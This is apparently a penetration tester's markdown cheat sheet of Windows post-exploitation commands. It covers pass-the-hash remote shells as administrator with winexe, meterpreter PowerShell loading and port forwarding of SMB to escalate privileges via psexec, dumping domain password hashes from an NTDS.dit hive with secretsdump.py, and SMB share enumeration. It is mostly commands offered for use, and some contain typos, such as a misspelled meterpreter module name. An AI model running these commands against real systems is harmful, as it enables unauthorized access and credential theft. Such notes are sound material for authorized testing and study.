 # Misc windows stuff

```sh
winexe - U jenkins/administrator //xxx.xxx.xxx cmd.exe
pth-winexe -U jenkins/administrator //xxx.xxx.xxx.xxx cmd.exe
```

## List alternate data streams

```sh
dir /r
powershell (Get-Content hm.txt -Stream root.txt)
```

## msf meterpreter powershell

You can load powershell in meterpreter

```ssh
meterpreter> load powerhsell 
meterpreter> powershell_shell
```

##  msf meterpreter portfwd

You can port potforward in meterpreter.
This tunnel 445 to your host so you can use psexec for privesc.

```ssh
portfwd add -l 445 -p 445 -r 127.0.0.1
```

Dump secrets from hive

```sh
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

Check available chares 

```sh
smbmap -u 'username' -p 'password' -d 'domain' -H xx.xx.xx.xx
```
